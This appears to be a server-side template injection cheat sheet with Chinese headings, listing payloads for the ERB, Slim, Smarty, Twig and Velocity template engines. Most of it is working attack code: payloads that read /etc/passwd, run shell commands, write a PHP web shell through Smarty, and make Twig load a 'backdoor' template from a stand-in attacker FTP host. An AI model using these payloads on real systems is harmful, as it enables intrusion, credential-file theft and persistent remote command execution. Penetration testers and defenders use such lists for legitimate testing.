   #### Ruby
  	基本注入
	ERB：
	<%= 7 * 7 %>
	Slim：
	#{ 7 * 7 }
	读取/etc/passwd
	<%= File.open('/etc/passwd').read %>
	列出文件和目录
	<%= Dir.entries('/') %>
	ERB代码执行
	<%= system('cat /etc/passwd') %>
	<%= `ls /` %>
	<%= IO.popen('ls /').readlines()  %>
	<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
	<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
	Slim代码执行
	#{ %x|env| }
  #### Smarty
  	{$smarty.version}
	{php}echo `id`;{/php} //deprecated in smarty v3
	{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
	{system('ls')} // compatible v3
	{system('cat index.php')} // compatible v3
  #### Twig
  	基本注入
	{{7*7}}
	{{7*'7'}} would result in 49
	{{dump(app)}}
	{{app.request.server.all|join(',')}}
	任意文件读取
	"{{'/etc/passwd'|file_excerpt(1,30)}}"@
	代码执行
	{{self}}
	{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
	{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
	{{['id']|filter('system')}}
	{{['cat\x20/etc/passwd']|filter('system')}}
	{{['cat$IFS/etc/passwd']|filter('system')}}
	邮件传递 FILTER_VALIDATE_EMAIL PHP 的示例
	POST /subscribe?0=cat+/etc/passwd HTTP/1.1
	email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
  #### Velocity
  	#set($str=$class.inspect("java.lang.String").type)
	#set($chr=$class.inspect("java.lang.Character").type)
	#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
	$ex.waitFor()
	#set($out=$ex.getInputStream())
	#foreach($i in [1..$out.available()])
	$str.valueOf($chr.toChars($out.read()))
	#end